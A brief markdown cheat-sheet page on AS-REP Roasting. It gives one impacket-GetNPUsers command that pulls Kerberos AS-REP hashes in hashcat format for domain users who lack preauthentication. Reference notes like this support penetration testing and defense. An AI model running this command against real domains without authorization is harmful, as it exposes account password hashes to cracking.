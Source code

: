 ```yaml
---
title: AS-REP Roasting
desc: Retrieve password hashes for users that do not require Kerberos preauth.
tags: [ASREP, Impacket, Kerberos, PreAuth, Windows]
alts: []
render_with_liquid: false
---
```


## Use impacket-GetNPUsers

Lists users and passwords is not required Kerberos pre auth. Used for ASREPRoasting.

1. **Get a Password**

```sh
# e.g. domain: 'example.local', username: 'admin')
impacket-GetNPUsers -dc-ip <target-ip> -format hashcat example.local/admin
```